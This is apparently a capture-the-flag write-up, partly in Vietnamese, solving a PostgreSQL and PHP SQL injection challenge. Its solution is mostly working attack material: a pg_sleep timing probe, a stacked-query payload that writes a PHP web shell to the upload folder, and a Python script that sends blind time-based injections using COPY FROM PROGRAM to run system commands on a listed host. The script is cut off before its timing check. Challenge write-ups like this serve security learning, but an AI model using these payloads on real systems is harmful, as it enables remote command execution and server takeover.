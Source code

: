 # Description:

This is because traditional SQL injection techniques. Could you execute command?

The challenge is running in PostgreSQL and PHP.

Flag File: /flagXXXX.txt
Flag Format: CHH{XXX}

<img width="1919" height="977" alt="image" src="https://github.com/user-attachments/assets/1458a5e3-e67d-41a1-856c-6e35f834b4eb" />

# Solution:

= Thực hiện lệnh `guest';select pg_sleep(5)--` thì thấy load 5 giây

=> Stacked Query

= Gõ `guest'; COPY (SELECT '<?php system($_GET["cmd"]);?>') TO '/www/upload/shell.php';-- -` thì thấy 
<img width="428" height="107" alt="image" src="https://github.com/user-attachments/assets/ae1afca5-96ce-4d27-8f27-ba6a2ff8cbbf" />

= Thử lệnh liệt kê các thư mục file

```
guest'; COPY (SELECT '<?php system("ls / -m");?>') TO '/www/upload/shell.php';-- -
```

= Chạy script:

```
import requests
import time

charset = 'QWERTYUIOPASDFGHJKLZXCVBNMabcdefghijklmnopqrstuvwxyz.0123456789_!@#$%^&*()}{ '
flag = ''

burp0_url = "http://103.97.125.56:31153/index.php"
burp0_headers = {
    "Cache-Control": "max-age=0",
    "Accept-Language": "en-US",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://103.97.125.56:31153/",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.89 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://103.97.125.56:31153/",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}
for index in range (1,100):
    for c in charset:
        burp0_data = {
            "username": f"9999';DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'ls / -m';select case when substring(cmd_output,{index},1)='{c}' then pg_sleep(5) else pg_sleep(0) end FROM cmd_exec limit 1;DROP TABLE IF EXISTS cmd_exec;-- ",
            "password": "2"
        }

        print("dang test ki tu thu ",index," :",c,end="\r")
        
        start_time = time.time()
        response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
        end_time = time.time()
```